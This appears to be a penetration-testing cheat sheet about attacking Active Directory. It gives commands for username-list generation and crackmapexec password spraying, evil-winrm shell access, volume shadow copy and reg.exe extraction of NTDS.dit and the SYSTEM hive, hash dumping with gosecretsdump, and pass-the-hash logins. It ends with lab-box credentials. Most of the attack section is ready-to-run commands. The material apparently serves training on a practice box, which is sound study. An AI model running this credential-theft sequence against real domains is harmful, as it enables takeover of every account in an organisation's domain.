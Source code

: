 ## Goals

Dictionary attack by dumping hashes from NTDS.dit file

## Pre-requisites

foothold inside the network

## Explaination

Once a windows system has joined a domain it will no longer default to referencing the local SAM database to validate logon requests. The system will now validate all the authentication requests by the domain controller. Local accounts can still be accessed from the terminal by using the identifier as hostname/username, or directly from the logo UI by specifying `./` in the username field.

## Attacks
### Dictionary attacks on AD accounts using crackmapexec

**Strength**: Very noisy and easier to detect

Try to custom tailor the attack as much as possible. Gather information by passive recon and finding and creating a tailored directory. Using that try to find the naming convention pattern.
After creating a directory either manually generate a userlist or use automated tools like [Username_Anarchy](https://github.com/urbanadventurer/username-anarchy) to generate username list.

Use this script to generate the user-wordlist

```sh
#!/bin/bash
filename=$1
while IFS= read -r r; do
    username-anarchy/username-anarchy -i "$filename" -F "$r" 
done < "$2"
```

##### Basic Command

`./username-anarchy -i file.txt`

This will generate a list of usernames following a lot of naming conventions. Try reducing the rule list to reduce the number of requests made.

#### Launch attack

Use crackmapexec with the smb protocol to launch the attack against the domain controller.

**Risk**: If the admin configured an accounts lockout policy this attack can potentially lock the account up.

### Post-Exploitation

| **Command** | **Description** |
|--|--|
| `evil-winrm -i <target_ip>  -u <username> -p '<password>'` | Connects to a shell session of the target machine |
| *On the shell* |
| `net localgroup` | Displays local group memberships |
| `net user <username>` | Displays Domain privilages of the user |

To proceed further into the engagement we need `Administrator`(local group) or `Domain Admin`(domain permission) we can use this to obtain the `ntds.dit file`.

AD uses NT Directory Services to find and organize network resources. The `NTDS.dit` file is located in `%systemroot$/ntds` on the domain controlled in a forest. This is the primary database file associated by AD and stores all domain usernames, password hashes and other critical schema information.

> ***Importance*** This file could potentially compromise every account on the domain.

#### Create shadow copy of AD drive

Use `vssadmin` to create a volume shadow copy(`VSS`) of the drive where AD is installed. Commonly `ntds.dit` is stored in the C: volume but the location may vary.

Use `reg.exe` to obtain the hklm\system file.

| **Command** | **Description** |
|--|--|
| `vssadmin CREATE SHADOW /For=<volume_letter>:` | Creates a shadow copy |
| `PS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit <dest_path>` | extracts ntds.dit file from the vss to the destination path |
| `reg.exe save hklm\system C:\system.save` | Saves the hklm\system file

Transfer the file using file transfer methods

use [goseceretdump](https://github.com/c-sto/gosecretsdump) to dump the contents of the ntds file.

> **Tip** We can use `crackmapexec smb -u <username/list> -p <password/list> --ntds` to utilise vss and quickly captures the ntds.dit file. This returns a plaintext file that can be used directly.

After obtaining the hashes from the ntds.dit file we can either crack the hashes or we can try the `Pass-the-Hash` attack to authenticate the use without using a cleartext password and using the NT hash that we obtain from the file .

`evil-winrm -i <target_ip>  -u <username> -H '<NT_hash>`

#### Remediation

Check the event logs using event viewer to see what tracks were left from the attack, and view what activities were performed post-exploitation

>! **Spoilers** Credentials for the tut box jmarston:P@ssword!